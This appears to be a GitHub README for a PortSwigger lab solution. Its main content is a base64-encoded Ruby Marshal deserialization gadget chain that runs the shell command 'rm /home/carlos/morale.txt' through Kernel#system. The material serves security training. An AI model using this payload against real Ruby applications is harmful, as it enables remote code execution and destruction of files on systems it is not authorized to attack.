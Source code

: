 # ruby-deserialization-gadget-chain-portswigger-lab

Usage:
ruby main.rb     
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxl
LnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
